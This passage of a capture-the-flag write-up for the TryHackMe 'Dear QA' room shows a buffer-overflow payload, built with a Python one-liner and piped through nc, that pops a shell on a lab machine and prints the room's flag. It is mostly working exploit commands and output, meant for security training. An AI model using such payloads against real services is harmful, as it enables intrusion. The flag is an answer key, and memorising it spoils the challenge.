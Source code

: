 # Gain Access → Get flag

Now the payload works with the local file. It’s time to connect to the target machine:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Dear_QA]
└─$ cat exploit3 | nc 10.10.158.67 5700
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^F@^@^@
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
Congratulations!
You have entered in the secret function!
bash: cannot set terminal process group (445): Inappropriate ioctl for device
bash: no job control in this shell
ctf@dearqa:/home/ctf$ id

pwd
```

If only use the `cat` command then get access to the target machine with the binary → The interactive shell is not worked!

To make it successfully, you need to use this format: `([exploit payload]; cat)` then establish the connection to the target machine:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Dear_QA]
└─$ (python3 -c "print('A'*39+'\x86\x06\x40\x00\x00')";cat) | nc 10.10.158.67 5700
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^F@^@^@
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
Congratulations!
You have entered in the secret function!
bash: cannot set terminal process group (445): Inappropriate ioctl for device
bash: no job control in this shell
ctf@dearqa:/home/ctf$ id
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
ctf@dearqa:/home/ctf$ ls -l
ls -l
total 16
-r-xr-xr-x 1 ctf  ctf  7712 Jul 24  2021 DearQA
-rwx------ 1 root root  413 Jul 24  2021 dearqa.c
-r--r--r-- 1 ctf  ctf    22 Jul 24  2021 flag.txt
ctf@dearqa:/home/ctf$ cat flag.txt
cat flag.txt
THM{PWN_1S_V3RY_E4SY}
ctf@dearqa:/home/ctf$
```